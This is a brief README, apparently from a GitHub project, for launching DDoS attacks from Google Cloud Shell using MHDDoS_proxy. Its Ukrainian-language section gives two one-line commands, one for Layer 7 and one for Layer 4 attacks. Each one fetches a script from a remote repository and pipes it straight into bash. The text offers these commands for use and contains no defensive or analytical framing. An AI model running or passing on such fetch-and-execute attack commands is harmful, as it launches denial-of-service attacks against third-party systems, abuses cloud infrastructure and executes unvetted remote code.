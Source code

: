 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session

# ТЕСТ
Командb для запуску атаки 
по Layer7:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L7m.sh | bash

по Layer4:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash
